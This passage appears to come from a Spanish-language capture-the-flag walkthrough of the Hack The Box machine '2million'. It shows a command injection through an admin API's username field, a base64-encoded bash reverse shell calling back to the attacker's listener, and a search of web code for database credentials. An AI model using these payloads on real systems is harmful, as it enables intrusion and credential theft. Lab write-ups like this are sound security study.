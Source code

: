 ```bash
curl --path-as-is -i -s -k -X $'POST' -H $'Host: 2million.htb' -H $'Content-Type: application/json' -b $'PHPSESSID=94qe95lsf2fc2gnfop81fnnelp' --data-binary $'{\"username\":\"test;id;\"\x0d\x0a}\x0d\x0a\x0d\x0a' $'http://2million.htb/api/v1/admin/vpn/generate'
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 17:04:40 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Efectivamente la API es vulnerable a una ejecucion de codigo remoto con un usuario administrador. En este punto podemos obetner una **reverse shell**

- Por un lado:
```
curl --path-as-is -i -s -k -X $'POST' -H $'Host: 2million.htb' -H $'Content-Type: application/json' -b $'PHPSESSID=94qe95lsf2fc2gnfop81fnnelp' --data-binary $'{\"username\":\"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41Ni80NDQ0IDA+JjE= | base64 -d | bash;\"\x0d\x0a}\x0d\x0a\x0d\x0a' $'http://2million.htb/api/v1/admin/vpn/generate'
```
- Por otro lado:
```
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.16.56] from (UNKNOWN) [10.10.11.221] 44736
bash: cannot set terminal process group (1193): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Vemos que hemos obtenido una shell como esperabamos. Lo que debemos hacer ahora es enumerar el sistema con el objetivo de obtener un usuario con más privilegios ya que nuestro usuario acutal: `www-data` no puede hacer mucho.

Lo habitual en estos casos es inspeccionar el codigo de la página web en busca de credenciales normalmente las del usuario que gestiona la base de datos de web y esperar que esas credenciales sean las de algún usuario del sistema.

En este caso al inspeccionar `index.php` nos encontramos con el siguiente codigo:

```php
<...SNIP...>
$dbHost = $envVariables['DB_HOST'];
$dbName = $envVariables['DB_DATABASE'];
$dbUser = $envVariables['DB_USERNAME'];
$dbPass = $envVariables['DB_PASSWORD'];


$database = new Database($dbHost, $dbUser, $dbPass, $dbName);
$database->connect();
<...SNIP...>
```
